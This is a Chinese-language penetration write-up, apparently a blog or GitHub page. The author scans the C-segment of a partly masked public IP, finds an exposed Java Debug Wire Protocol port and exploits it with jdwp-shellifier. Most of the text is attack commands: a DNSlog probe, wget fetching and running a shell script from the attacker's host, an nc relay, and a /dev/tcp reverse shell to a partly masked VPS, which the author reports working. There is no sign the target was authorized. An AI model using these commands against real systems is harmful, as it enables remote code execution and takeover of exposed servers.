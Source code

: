 nmap扫描某ip的C段，对识别到的指纹信息进行查看，查看到如下信息
```
5005/tcp  open  jdwp       Java Debug Wire Protocol (Reference Implementation) version 1.8 1.8.0_191
|_jdwp-info: ERROR: Script execution failed (use -d to debug)
```
之前复现过JDWP的漏洞，故有此文

### 0x01 简单验证
telnet 106.53.xx.xx 5005  
返回JDWP-Handshake，即表示存在漏洞  
我这边没有返回JDWP-Handshake，不管它，继续尝试利用  
### 0x02 漏洞利用
1、通过dnslog进行探测  
POC下载地址：https://github.com/IOActive/jdwp-shellifier  
执行如下命令  
```
python2 jdwp-shellifier.py -t 192.168.3.118 -p 8787 --break-on "java.lang.String.indexof" --cmd "ping xx.dnslog.cn"
```
dnslog平台成功收到回显  
2、尝试反弹shell  
将如下内容保存为shell.txt，放置到vps下，并通过python3开启一个临时的http服务器
```
nc 192.168.178.129 3333 | /bin/bash | nc 192.168.178.129 4444%
```
开启监听，需要开启2个监听，前面一个输入执行命令，后面一个输出命令执行结果
```
nc -lvvp 3333
nc -lvvp 4444
```
利用POC执行：下载shell、对文件赋予可执行权限、执行shell
```
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "wget http://192.168.178.129:8000/shell.txt -O /tmp/shell.sh"
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "chmod a+x /tmp/shell.sh"
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "/tmp/shell.sh"
```
成功执行完，vps上并没有收到反弹回来的shell  
思考了一下，payload中使用nc连接vps，目标可能不存在nc，改用sh，修改shell.txt为如下
```
sh -i >& /dev/tcp/101.200.xx.xx/3333 0>&1 | /bin/sh | sh -i >& /dev/tcp/101.200.xx.xx/4444 0>&1%
```
成功接收到反弹shell，如下图  
![image](./pic/1.png)

参考链接：  
https://blog.csdn.net/weixin_43486390/article/details/114259762  

